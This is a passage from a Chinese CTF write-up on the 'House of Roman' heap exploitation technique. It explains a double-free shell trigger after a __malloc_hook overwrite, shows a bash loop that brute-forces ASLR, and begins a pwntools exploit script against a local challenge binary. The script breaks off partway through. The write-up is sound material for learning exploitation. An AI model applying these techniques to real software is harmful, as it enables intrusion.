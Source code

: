 最后通过触发 Double Free 来 getshell。

```python
Free(5)
Free(5)

io.interactive()
```

明明是 __攻击的 malloc_hook__  为什么 __不是用 malloc__ 来 get shell 而是 __用 Double Free__ 来 get shell？

先感谢 __@ShellM1ng__

![answer_0](/images/posts/House_of_Roman/answer_0.png)  
![answer_1](/images/posts/House_of_Roman/answer_1.png)  
![answer_2](/images/posts/House_of_Roman/answer_2.png)  

另外还有一点，虽然这个例子中我们没有用到。以前我们进行 fastbin 攻击时得目标地址附近有一个合适的大小，现在我们确实可以通过设置 unsorted bin 攻击的 0x7f 来将 fastbin 放在任何地方。

最后，上面是关掉 ASLR 来弄的，开启 ASLR 后，我们就多跑几次就成了。

```shell
#!/bin/bash
while true
do
    python exp.py
done
```

## 完整利用代码

```python
#!/usr/bin/python
from pwn import *

io = process("./new_chall")

def menu():
    io.recvuntil("3. Free\n")

def Malloc(size, idx):
    menu()
    io.sendline('1')
    io.recvuntil("Enter size of chunk :")
    io.sendline(str(size))
    io.recvuntil("Enter index :")
    io.sendline(str(idx))

def Write(idx, data):
    menu()
```